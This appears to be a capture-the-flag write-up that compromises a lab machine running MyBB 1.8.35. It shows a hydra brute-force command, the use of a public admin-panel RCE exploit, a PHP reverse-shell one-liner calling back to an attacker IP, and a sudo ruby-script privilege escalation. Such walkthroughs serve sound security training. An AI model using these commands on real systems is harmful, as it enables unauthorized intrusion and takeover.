 ```yaml
---
sticker: emoji//1f476
---
```


# MYBB

## ENUMERATION

### OPEN PORTS

![](gitbook/cybersecurity/images/Pasted%20image%2020241029135137.png) Seems like we only have a website, let's fuzz it

### FUZZING

#### GOBUSTER FUZZ

![](gitbook/cybersecurity/images/Pasted%20image%2020241029135218.png)

#### SOURCE CODE AND WEBPAGE

Nothing useful, let's see the page:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029143334.png)

Let's go to the forum:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029143346.png)

We need to add `panel.mybb.dl` to `/etc/hosts` in order to be able to go into the website:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029143517.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020241029143536.png) Nice, let's keep enumerating the machine until we find something we can exploit:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029143732.png) We can see we only have the admin user registered,

![](gitbook/cybersecurity/images/Pasted%20image%2020241029143829.png) Let's fuzz the `http://panel.mybb.dl` website to check if we can find anything:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029144434.png)

We found interesting things, directory I like the most is the `/backups` directory, let's fuzz it to check if there's anything in there:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029144701.png)

Found `/data` inside of the directory, let's take a look:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029144821.png)

In general, SQL queries can be found, and some login attempts, but the most interesting part is the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029144856.png)

User `alice` attempted to log in using a password, that seems like a hash, let's try to crack it and log into Alice account

![](gitbook/cybersecurity/images/Pasted%20image%2020241029145105.png)

We got `alice:tinkerbell` let's attempt to log in:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029145142.png) We cannot get in using those credentials, seems like they were fake, so, why don't we try some bruteforce using the `admin` username, let's capture the request with `burp` and use `hydra` to brute force our login page:

```request
POST /admin/index.php HTTP/1.1

Host: panel.mybb.dl

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 38

Origin: null

Connection: keep-alive

Cookie: mybb[lastvisit]=1730230425; mybb[lastactive]=1730230863; sid=df2321f0ff06ec973eb0f4cbfc38c6de

Upgrade-Insecure-Requests: 1

Priority: u=0, i



username=admin&password=admin&do=login
```

So, we got a post request, let's brute force:

```ad-hint

##### HYDRA COMMAND

`hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^&do=login:F=Login Failed"`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029150240.png)



```

So, we got plenty amount of passwords, after trying every single one of them, correct credentials were: `admin`:`babygirl`, let's log in and proceed with exploitation:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029150737.png)

## EXPLOITATION

First, we can see we are running `myBB 1.8.35` let's search for any exploit in this version:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029150932.png) We found this [exploit](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE), let's download it and use it:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029151057.png) So, we need to put this:

```ad-hint

# PYTHON COMMAND:

python3 exploit.py http://panel.mybb.dl admin babygirl

##### OUTPUT

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029151225.png)

We got RCE!
```

With the RCE from the exploit, we can get a \[\[CYBERSECURITY/REVERSE SHELLS/MOST COMMON REVERSE SHELLS.md|reverse shell]]:

```ad-note

# USED SHELL

php:  `php -r '$sock=fsockopen("192.168.200.136",4444);shell_exec("bash <&3 >&3 2>&3");'`

# CONNECTION RECEIVED

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029151456.png)

```

Let's \[\[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize our shell]]:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029151553.png)

With our new stable shell, we can begin with \[\[CYBERSECURITY/LINUX/LINUX PRIVILEGE ESCALATION/BASIC PRIVESC IN LINUX.md|PRIVESC]]

## PRIVILEGE ESCALATION

At home directory, we can find our previous user `alice`, let's switch users:

![](gitbook/cybersecurity/images/Pasted%20image%2020241029151851.png)

Nice, we were able to switch to alice, let's use `sudo -l` to get root access:

### SUDO -L

![](gitbook/cybersecurity/images/Pasted%20image%2020241029151944.png) Pretty weird, let's take a look at that:

It is a ruby script, since we can execute any ruby script as root without the need of a password, we can do the following:

```ad-hint

`echo 'exec "/bin/bash"' > /home/alice/scripts/root.rb`
`chmod +x root.rb`

`sudo /home/alice/scripts/root.rb`

# OUTPUT

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029152250.png)


```

And just like that, the CTF is done!
